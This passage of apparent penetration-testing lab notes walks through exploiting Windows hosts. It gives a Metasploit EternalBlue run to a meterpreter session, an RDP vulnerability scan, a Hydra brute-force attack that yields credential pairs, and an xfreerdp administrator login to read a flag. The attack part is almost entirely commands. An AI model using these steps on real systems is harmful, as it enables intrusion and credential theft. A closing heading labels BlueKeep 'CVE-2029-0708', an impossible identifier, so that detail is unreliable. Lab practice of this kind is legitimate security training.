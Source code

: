```bash
john@attack> msfconsole

msf6> use exploit/windows/smb/ms17-010-eternalblue
msf6> set rhosts 10.10.10.12
msf6> run

meterpreter> getuid
```

### Exploiting RDP

#### Description

* The Remote Desktop Protocol (RDP) is a proprietary GUI remote access protocol developed by Microsoft and is used to remotely connect and interact with a Windows system.
* RDP uses TCP port 3389 by default, and can also be configured to run on any other TCP port.
* RDP authentication requires a legitimate user account on the target system as well as the user's password in clear-text.
* We can perform an RDP brute-force attack to identify legitimate user credentials that we can use to gain remote access to the target system.

#### Lab

```bash
john@attack> nmap 10.3.18.102 -sV
```

**Vulnerability check**

```bash
john@attack> msfconsole

msf5> use scanner/rdp/rdp_scanner
msf5> set rhosts 10.3.18.102
msf5> set rport 3333
msf5> run
```

**Brute-force (Hydra)**

```bash
john@attack> hydra -L /usr/share/metasploit-framework/data/wordlists/common_users.txt -P /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt rdp://10.3.18.102 -s 3333
```

Credentials : `sysadmin:samantha` `demo:victoria` `auditor:elizabeth` `administrator:qwertyuiop`

**Connection (xfreerdp)**

```bash
john@attack> xfreerdp /v:10.3.18.102:3333 /u:administrator /p:qwertyuiop

PS C:\Users\Administrator> more c:\flag.txt
```

### CVE-2029-0708 (BlueKeep)
